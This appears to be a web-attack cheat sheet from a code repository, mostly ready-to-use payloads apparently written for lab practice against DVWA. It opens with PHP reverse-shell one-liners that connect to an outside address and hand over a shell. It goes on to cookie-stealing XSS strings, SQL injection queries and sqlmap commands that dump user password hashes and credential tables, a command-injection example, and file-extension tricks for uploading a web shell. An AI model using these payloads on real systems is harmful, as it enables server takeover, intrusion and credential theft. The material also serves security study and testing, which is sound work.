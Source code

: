 # WEB

PHP
===

Reverse shell one-liners:

<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>


XSS (CROSS SITE SCRIPTING)
==========================

```javascript
<script>alert("XSS")</script>
<script>alert(document.cookie)</script>
```

iframe: `<iframe src="http://www.cnn.com"></iframe>`  
Stored cookie: `<script>alert(document.cookie)</script>`
Refleced (vulnerable parameter): `http://localhost/xss_r/?name=<script>alert(document.cookie)</script`


SQL INJECTION
=============

SQL operators and functions:

`UNION` - used to combine the result of two or more SELECT statements with same number of columns and similar data types (selects only distinct values by default - to allow duplicate values, use UNION ALL).  
`SUBSTRING(str, pos, len)` - returns a specified number of characters from a particular position of a given string. str=string; pos=starting position; len=length in characters.
`VERSION()` - returns a string that indicates the MySQL server version.

MySQL delimiter: `#` (comment)  
SQL delimiter: `--`

Vulnerable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

Determining Database Type
-------------------------

Only MySQL is using `version_comment`.

* "Always true" scenario:

```
%' OR '0'='0
%' OR 1=1--
```

`%` will probably not be equal to anything so will be false
`'0'='0'` - always equal to true

* Figure out how many columns / attributes are there:

`‘ ORDER BY 1#`  
`‘ ORDER BY 2#`  
etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`

* Display all tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables #`

* Display all the user tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables where table_name like 'user%'#`

* Display all the columns fields in database's user table:

%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`

* Display all the columns field contents in the database user table:

`%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`

SQLMAP
------

`sqlmap -u "URL" --cookie="COOKIE"`

--dbs: list databases  
-D [database]: specify a databases  
--tables: list tables  
-T users: list columns of users table  
-C user, password --dump  


COMMAND INJECTION
=================

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`


LOCAL FILE INCLUSION
====================

Local: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  
Remote: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`

FILE UPLOAD
===========

Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

shell.jpg.php (satisfies as check for jpg only)

shell.jpg.PhP (obfuscation)

shell.php;.jpg (sometimes can ignore whats after ";")

shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)

shell.php.test (defaults to first recognised extension ignoring "test")

shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)

.phtml (a commonly used php parsed extension often forgotten about!)

.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)

